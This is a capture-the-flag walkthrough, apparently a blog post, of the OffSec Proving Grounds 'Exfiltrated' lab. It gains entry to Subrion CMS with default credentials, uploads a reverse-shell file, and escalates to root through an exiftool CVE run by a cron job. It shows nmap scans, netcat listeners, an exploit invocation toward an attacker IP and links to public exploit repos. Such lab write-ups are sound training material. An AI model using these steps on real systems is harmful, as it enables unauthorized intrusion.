 ```yaml
---
title: "Proving Grounds - Exfiltrated"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, Subrion, Exiftool]
mermaid: true
image: ../assets/img/provingrounds/offsec.jpeg
---
```


Exfiltrated was a well-structured box that provided an excellent opportunity to exploit a Subrion CMS vulnerability and perform privilege escalation via an Exiftool exploit. 

Initial enumeration led to the discovery of Subrion CMS, and default credentials allowed for access to the admin panel. 

By exploiting a file upload vulnerability, a reverse shell was obtained. Further enumeration revealed a cron job running Exiftool on uploaded images, which was leveraged to escalate privileges and capture the flag.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify Subrion CMS]
    B -->|Default Credentials| C[Admin Panel Access]
    C -->|File Upload Vulnerability| D[Upload Reverse Shell]
    D -->|Execute Reverse Shell| E[Gain Initial Access]
    E -->|Cron Job Enumeration| F[Identify Exiftool Usage]
    F -->|Exploit Exiftool| G[Privilege Escalation]
    G -->|Capture Flag| H[Success]
```

## Information Gathering

### Portscan

---

- `nmap -sS -Pn -n -T4 --open 192.168.177.163`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open 192.168.177.163 -p-`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,80 192.168.177.163`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%202.png)
    

## Enumeration

### HTTP 80
---

- [http://192.168.177.163](http://192.168.177.163) → redirects to exfiltrated.offsec
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%203.png)
    
- `cat /etc/hosts`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%204.png)
    

- [http://exfiltrated.offsec/](http://exfiltrated.offsec/) → Subrion CMS
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%205.png)
    
- [http://exfiltrated.offsec/robots.txt](http://exfiltrated.offsec/robots.txt)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%206.png)
    
- [http://exfiltrated.offsec/panel/](http://exfiltrated.offsec/panel/) → Panel Login. CMS v4.2.1
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%207.png)
    

- `searchsploit Subrion CMS 4.2.1`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%208.png)
    

- Subrion default credentials: admin/admin
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%209.png)
    

- [http://exfiltrated.offsec/panel/members/add/](http://exfiltrated.offsec/panel/members/add/) → made login
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2010.png)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2011.png)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2012.png)
    

Once authenticated i tried this exploit

- https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE

After read the exploit i decided to put an reverse shell inside the [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/) 

- `cat revShell.phar`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2013.png)
    
- [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2014.png)
    

- [http://exfiltrated.offsec/uploads/revShell.phar](http://exfiltrated.offsec/uploads/revShell.phar)
`rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2015.png)
    

## Priv Escalation

---

- `cat /etc/cron*`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2016.png)
    
- `cat /opt/image-exif.sh`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2017.png)
    
- `ls -lh /opt/image-exif.sh`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2018.png)
    
- `ls -ld /var/www/html/subrion/uploads /opt/metadata`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2019.png)
    

Since the cron script writes EXIF metadata to a log file in `/opt/metadata` using the `exiftool` command, one possible attack vector is to exploit a symlink attack if the script does not properly handle symbolic links.

- `exiftool -ver`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2020.png)
    

- `searchsploit exiftool`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2021.png)
    

Searching more i found this repository

[https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git](https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git)

But wasn’t working because of the bbz

- `sudo apt-get install imagemagick djvulibre-bin exiftool`

- `python3 exploit.py 192.168.45.194 4430`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2022.png)
    
- [http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw](http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2023.png)
    
- [http://exfiltrated.offsec/uploads/image.jpg](http://exfiltrated.offsec/uploads/image.jpg)
`rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2024.png)
    

- `Flag.txt`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2025.png)